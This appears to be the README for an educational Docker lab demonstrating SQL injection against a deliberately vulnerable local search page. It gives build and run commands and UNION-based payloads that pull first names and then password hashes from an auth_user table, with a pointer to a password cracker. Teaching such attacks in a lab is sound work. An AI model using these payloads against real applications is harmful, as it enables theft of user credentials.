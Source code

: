 How to perform a SQL Injection Attack

### Build

docker build -t logstoneducation/sql-injection:0.0.1 .

### Run

docker run --rm -p 8000:8000 logstoneducation/sql-injection:0.0.1

### Exploit

1. http://127.0.0.1:8000/items/search
  1. Search for a few items (eg. Madison)
1. Check if the search is vulnerable by searching for `blah' UNION SELECT 1'`.
   This cause us to search for "blah" and then UNION that with a `SELECT 1`
   call.
1. It takes some trial and error before we find out the name of the user table:
1. Search for `z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '`
   1. `SELECT name FROM orders_item WHERE name LIKE '%z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '%'`
1. Instead of searching for `first_name`, we can search for `password`.
   1. `SELECT name FROM orders_item WHERE name LIKE '%z' UNION SELECT password FROM auth_user WHERE first_name LIKE '%'`

Now we can take these and pass them to a password cracker like [JTR](https://en.wikipedia.org/wiki/John_the_Ripper).
